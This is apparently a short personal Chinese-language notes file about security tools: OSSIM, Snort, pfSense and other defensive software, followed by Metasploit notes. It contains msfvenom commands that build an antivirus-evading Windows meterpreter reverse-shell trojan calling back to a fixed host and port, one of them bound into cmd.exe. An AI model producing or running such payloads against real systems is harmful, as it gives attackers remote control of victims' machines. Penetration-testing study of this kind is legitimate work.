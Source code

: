 # 生活技能

`后续补充`
snort , 
pfsense, 

#### ossim, 
```angular2html
OSSIM是SIEM的代表性产品，在产品形式上和Kali类似是一个基于Debain进行二次开发的Linux发行版，当前5.6.5版本基于Dibian 8（jessie）。

OSSIM使用Nmap等实现资产发现、使用Nessus等实现漏洞扫描、使用Snort等实现入侵检测、使用MySQL等进行数据存储，自己实现的部分主要是工具、数据整合和可视化展示。
```
### 下载地址
````angular2html
https://dlcdn.alienvault.com/AlienVault_OSSIM_64bits.iso
````
clamav, 
panabit, 
iscisi, 
freewaf, 
ningx


# Metasploit

### session
```angular2html
background 临时退出shell
```
### msfvenom

> 查看编辑器 `msfvenom --list encoders`
>
> 查看 `windows/meterpreter/reverse_tcp`支持的平台 `msfvenom -p windows/meterpreter/reverse_tcp --list-options`
>
> 查看所有payload `msfvenom --list payloads`
>
>还有 ` nops, platforms, archs, encrypt, formats`


#### msfvenom生成木马

```angular2html
生成免杀木马
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 12 -b '\x00' lhost=10.2.7.130 lport=11206 -f exe > haya.exe

捆绑进cmd.exe，目前失败，程序无法执行
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai lhost=10.2.7.130 lport=11206 -b '\x00' -x cmd.exe -k -i 12 -f exe -o cmd1.exe
```
#### use + 载荷 ，快速载入脚本
```angular2html
2021-05-14编写
感谢lyh

```


> 乾坤未定，你我皆是黑马
